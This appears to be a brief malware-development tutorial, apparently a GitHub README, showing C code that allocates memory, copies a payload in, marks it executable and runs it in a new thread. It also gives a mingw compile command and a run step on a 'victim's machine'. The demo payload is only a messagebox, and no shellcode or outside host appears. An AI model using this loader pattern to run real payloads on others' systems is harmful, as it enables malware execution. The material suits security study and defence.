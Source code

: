 # intro

A simple malware in C that will launch our payload: `Hello world` messagebox.   

If you want to run payload in the memory of the process (current), we have to do couple of things. We have to create a new memory buffer, copy our payload into the buffer, and a start executing this buffer.    

The first we do we allocate new memory region in a process and we store the address in `mem` variable:    

```cpp
mem = VirtualAlloc(0, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

As you can see, memory region is readable and writeable.    

Then "copy" our payload to this memory buffer:    

```cpp
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
```

And then we set our buffer to be executable:    

```cpp
operation_status = VirtualProtect(mem, sizeof(my_payload), PAGE_EXECUTE_READ, &old_protect);
```

Finally, run our payload as the separate new thread in a process:    

```cpp
if ( operation_status != 0 ) {
  // execute the payload
  th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) mem, 0, 0, 0);
  WaitForSingleObject(th, -1);
}
```

Compile example:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-03_07-42.png)    

Run on victim's machine (Windows 10/Windows 11):    

```powershell
.\hack.exe
```

![img](./img/2024-05-03_07-44.png)    

As we can see, everything is worked as expected.    